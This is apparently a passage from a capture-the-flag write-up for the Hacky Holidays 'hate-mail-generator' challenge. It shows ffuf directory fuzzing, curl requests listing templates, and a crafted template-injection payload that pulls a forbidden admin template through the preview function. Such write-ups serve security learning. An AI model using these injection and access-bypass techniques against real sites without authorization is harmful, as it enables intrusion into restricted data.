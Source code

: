Apparently, if we preview the page ([link](https://hackyholidays.h1ctf.com/hate-mail-generator/new/preview)) we will do so using mockup name and email for 'Alice' (alice@test.com). Previewing the premade mail template, it does say hello to Alice:
{F1138503}

Knowing that we can inject random data through `{{}}` and actually have the page process it through the preview function, let's see what juicy files we can dig up to use with `{{template:}}` .

Let's fuzz!
```bash
ffuf -u https://hackyholidays.h1ctf.com/hate-mail-generator/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
new                     [Status: 200, Size: 2494, Words: 440, Lines: 49]
templates               [Status: 302, Size: 0, Words: 1, Lines: 1]
```

Templates looks to be just what we're looking for!
```bash
curl https://hackyholidays.h1ctf.com/hate-mail-generator/templates/
<html>
<head><title>Index of /hate-mail-generator/templates/</title></head>
<body bgcolor="white">
<h1>Index of /hate-mail-generator/templates/</h1><hr><pre><a href="../">../</a>
<a href="cbdj3_grinch_header.html">cbdj3_grinch_header.html</a>                                     20-Apr-2020 10:00                   -
<a href="cbdj3_grinch_footer.html">cbdj3_grinch_footer.html</a>                                     20-Apr-2020 10:00                   -
<a href="38dhs_admins_only_header.html">38dhs_admins_only_header.html</a>                                21-Apr-2020 15:29                  46
</pre><hr></body>
</html>
```

Nice, a list of usable templates. Naturally, we'll try accessing `38dhs_admins_only_header.html` first:
```bash
curl https://hackyholidays.h1ctf.com/hate-mail-generator/templates/38dhs_admins_only_header.html
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.15.8</center>
</body>
</html>
```

Well, I don't think anyone actually expected that to work. Let's get back to the new campaign page at `/hate-mail-generator/new` and see what we can cook up!

{F1138504}

Let's preview and win!
{F1138505}

SUCCE... ?! What? Apparently, not so easy. But, we know the two parameters to the preview function - `preview_markup`and `preview_data` from the source code of the `new` page. Maybe we can trick the page into including the admin-page by providing it as a variable in `preview_data` and then reflecting that variable in `preview_markup`. Let's craft `preview_data` to look like so:
```json
{
  "name":"Alice",
  "email":"alice@test.com",
  "winner":"{{template:38dhs_admins_only_header.html}}"
}
 ```
